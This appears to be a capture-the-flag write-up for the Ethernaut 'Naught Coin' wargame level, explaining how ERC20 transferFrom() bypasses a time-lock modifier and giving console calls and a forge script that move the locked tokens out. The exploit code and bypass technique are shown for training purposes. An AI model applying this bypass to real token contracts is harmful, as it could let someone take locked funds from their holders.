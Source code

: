 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/15-naught.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 15 - Naught Coin</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
  - [In the browser's console](#in-the-browsers-console)
  - [With Foundry using `forge`:](#with-foundry-using-forge)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/15-naught-requirements.webp" width="800px"/>

## The hack

The NaughtCoin level is a bit weird as it is hard to imagine that anything like this would ever be implemented. However, it teaches us a valuable lesson about the importance of correctly implementing inherited functions.

We can see that the `transfer()` function has a `lockTokens` modifier.

```javascript
modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
}
```

So it looks like we won't be able to use the `transfer()` function to transfer the tokens to another address. But in the ERC20 standard, there is also a `transferFrom()` function, which allows another address to execute a transfer on our behalf if approved.

Since the `transferFrom()` function is not implemented in the NaughtCoin contract, its implementation will be the one defined in the OpenZeppelin contract. Without the `lockTokens` modifier.

In other words, we can use the `transferFrom()` function to transfer the tokens to another address without worrying about the time lock.

## Solution

### In the browser's console

1.  Let's find out how many tokens you have:

```javascript
const balance = await contract.balanceOf(player);
```

2.  Approve another address to transfer tokens on your behalf:

```javascript
await contract.approve("TheFutureCoinOwner", balance);
```

2.  Transfer the tokens to another address using the transferFrom function:

```javascript
await contract.transferFrom(player, "TheFutureCoinOwner", balance);
```

### With Foundry using `forge`:

Edit the `futurCoinOwner` address in the `script/15_NaughtCoin.s.sol` file:

```java
 address futurCoinOwner = "your wallet address here";
```

Then run the script:

```bash
forge script script/15_NaughtCoin.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always be careful when inheriting from other contracts. And make sure to implement the inherited functions correctly.

## Reference

- The Seneca hack & non implemented `pause()` function: https://rekt.news/seneca-protocol-rekt/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
